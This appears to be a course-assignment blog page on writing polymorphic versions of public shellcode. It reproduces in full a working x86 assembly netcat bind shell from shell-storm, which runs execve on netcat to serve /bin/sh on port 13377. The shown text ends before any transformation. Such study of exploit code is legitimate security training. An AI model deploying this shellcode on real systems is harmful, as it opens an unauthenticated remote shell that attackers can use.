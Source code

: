 ```yaml
---
title:  Assignment 6
description: Create Polymorphic Versions of Sample Shellcode
order: 6
---
```


[&lt;&lt; Go Back]({{ site.baseurl }})


# {{ page.title }}
### {{ page.description }}
___
<div style="text-align:right;direction:ltr;margin-left:1em;"><h6>{{ page.date }}</h6></div>

For this assignment we will be creating polymorphic versions of sample shellcode from [shell-storm](shell-storm.org).

The first shellcode we will be transforming is the [netcat bindshell](http://shell-storm.org/shellcode/files/shellcode-804.php), shown below:

```nasm
; netcat_bind_shell.nasm
;  - Listen on port 13377 using netcat and provide shell
;
; [LINK] http://shell-storm.org/shellcode/files/shellcode-804.php

    global _start

section .text
_start:

        xor eax,eax
        xor edx,edx
        push 0x37373333         ; 7733
        push 0x3170762d         ; 1pv-
        mov edx, esp

        push eax
        push 0x68732f6e         ; hs/n
        push 0x69622f65         ; ib/e
        push 0x76766c2d         ; vvl-
        mov ecx,esp

        push eax
        push 0x636e2f2f         ; cn//
        push 0x2f2f2f2f         ; ////
        push 0x6e69622f         ; nib/
        mov ebx, esp

        push eax
        push edx
        push ecx
        push ebx
        xor edx,edx
        mov  ecx,esp
        mov al,11               ; execve
        int 0x80
```
